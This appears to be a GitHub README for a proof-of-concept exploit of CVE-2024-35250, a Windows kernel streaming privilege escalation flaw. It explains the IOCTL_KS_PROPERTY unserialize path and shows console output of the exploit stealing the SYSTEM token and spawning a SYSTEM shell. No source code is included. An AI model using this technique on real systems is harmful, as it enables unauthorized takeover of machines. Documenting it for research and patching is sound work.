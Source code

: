 # CVE-2024-35250

**Title:** Windows Kernel-Mode Driver Elevation of Privilege Vulnerability
**CVE-2024-35250:** https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-35250
**Vulnerability Type:** Untrusted Pointer Dereference
**Tested On:** ks.sys - 10.0.22621.2506  

## Description

CVE-2024-35250 is a logic flaw in the Windows kernel’s streaming (KS.sys) `IOCTL_KS_PROPERTY` handler: its `UnserializePropertySet` path copies a user-provided request and re-issues the IOCTL in kernel mode. By sending a specially crafted `IOCTL_KS_PROPERTY` request with the `KSPROPERTY_TYPE_UNSERIALIZESET` flag, an attacker can trigger this path and force the driver to execute the IOCTL again with Irp->RequestorMode = Kernel, effectively granting an arbitrary kernel-mode IOCTL primitive for privilege escalation.

## Exploit

Tested on: Windows 11 23H2 (05-2024 Build)

```
PS C:\Users\h4x\Desktop> whoami
desktop-3rgmcon\h4x
PS C:\Users\h4x\Desktop> .\CVE-2024-35250.exe
[+] Successfully opened DRM descrambler device!
[+] NT base address fffff8066ba00000
[+] Found EPROCESS of the current process FFFFBA81E8D130C0
[+] Found KTHREAD of the current thread FFFFBA81E57EE080
[+] Found EPROCESS of the system.exe FFFFBA81E0AB9040
[+] pFakeBitmapAddr = 0x0000000010000000
[+] Calling Kernel Streaming....
[+] Stealing system's Token..
[+] Replacing KTHREAD.PreviousMode as UserMode..
[+] Spawning shell as SYSTEM...
Microsoft Windows [Version 10.0.22631.3593]
(c) Microsoft Corporation. All rights reserved.

C:\Users\h4x\Desktop>whoami
nt authority\system
```

## Acknowledgements

- The original research on Kernel Streaming was conducted by [Angelboy](https://x.com/scwuaptx), and it can be found [here](https://devco.re/blog/2024/08/23/streaming-vulnerabilities-from-windows-kernel-proxying-to-kernel-part1-en/).
- The [PoC](https://github.com/varwara/CVE-2024-35250/) was developed by Varwara, and the above PoC is based on it.
